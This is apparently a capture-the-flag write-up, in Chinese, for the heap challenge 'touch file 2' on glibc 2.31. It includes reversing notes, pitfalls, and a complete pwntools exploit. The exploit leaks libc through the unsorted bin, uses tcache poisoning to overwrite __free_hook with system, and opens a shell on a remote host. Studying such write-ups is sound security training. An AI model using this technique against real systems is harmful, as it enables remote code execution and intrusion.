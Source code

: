 # touch file 2

## 文件分析

NX on, PIE on, Canary off, RELRO full  
ghidra分析为64位程序  
glibc: 2.31

## 逆向

程序模拟了命令行的执行，是一道简单堆题，主要利用点在cp命令上，
浅拷贝的模式使得uaf、double free十分容易

这道题中分配单元固定，为0x80，分配的chunk大小为0x91，首先分配7个耗尽tcache，
然后分配一个在unsorted bin中，cp+rm+cat读取main_arena，推出libcBase；
再进行tcache dup，把`__free_hook`写上system，最后给一个chunk上写上/bin/sh，
free它就能拿到shell

## 踩过的坑

1. strncpy函数会将size中未输入的部分全部填0，并且复制时是'\0'截断的！这点要注意
2. 这题附件给了ld，给了libc，但是libstdc++之类的其他依赖都没给，这时候借助docker，
下载一个ubuntu容器可以快速解决问题（主要是本地的libcstdc++依赖高版本libc）
3. 手动释放一个chunk到unsorted bin中需要满足对应的后一个chunk处(&chunk + size)
的P位设为1
4. 当getline得到一个超长输入时，会分配一个chunk，用完后释放，可以考虑写入大量垃圾字符，
来触发`malloc_consolidate`（不是用在这题）

## EXPLOIT

```python
# 类型注释包含新版本特性，如无法运行，建议把类型注释删掉
from pwn import *
def execute(*args: str | bytes):
    global sh
    sh.recvuntil(b'>')
    sh.sendline(b' '.join(map(lambda arg: arg.encode() if isinstance(arg, str) else arg, args)))

def payload(lo):
    global sh
    if lo:
        sh = process('./touch_file2')
        if lo & 0b10:
            gdb.attach(sh, gdbscript = 'b *$rebase(0x1ab1)')
    else:
        sh = remote('43.249.195.138', 21815)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.31-0ubuntu9.12_amd64/libc-2.31.so')# strncpy 会向dest中补充\0字符！！

    execute('touch', 'a')
    execute('touch', 'b')
    execute('touch', 'c')
    execute('touch', 'd')
    execute('touch', 'e')
    execute('touch', 'f')
    execute('touch', 'g')
    execute('touch', 'h')
    execute('rm', 'h')
    execute('rm', 'g')
    execute('rm', 'f')
    execute('rm', 'e')
    execute('rm', 'd')
    execute('rm', 'c')
    execute('rm', 'b')

    execute('cp', 'a', 'aa')
    execute('rm', 'aa') # tcache full (7), free in unsorted bin
    execute('cat', 'a') # print fd (main_arena)

    dumpArena = libc.symbols['__malloc_hook'] + (libc.symbols['__malloc_hook'] - libc.symbols['__realloc_hook']) * 2
    mainArena = u64(sh.recvline()[-7:-1] + b'\0\0') - 0x60 # sub unsorted bin offset
    libcBase = mainArena - dumpArena
    freeHook = libcBase + libc.symbols['__free_hook']
    system = libcBase + libc.symbols['system']

    execute('touch', 'b')
    execute('touch', 'c')
    execute('touch', 'd')
    execute('touch', 'e') # alloc some chunks to consume tcache for tcache dup

    execute('touch', 'x')
    execute('cp', 'x', 'xx')
    execute('rm', 'xx')
    # tcache linked list status
    # head -> x -> f -> g -> h
    execute('edit', 'x', p64(freeHook))  # next = freeHook, key = 0
    # head -> x -> freeHook -> NULL
    execute('touch', 'y', p64(freeHook)) # next = freeHook, key = 0; without this content, next = 0
    # head -> freeHook -> NULL
    execute('touch', 'z', p64(system))   # modify *freeHook = system
    execute('edit', 'c', '/bin/sh')
    execute('rm', 'c') # free(chunk), *chunk => "/bin/sh", execute system("/bin/sh")

    sh.interactive()

payload(0)
```

Done.
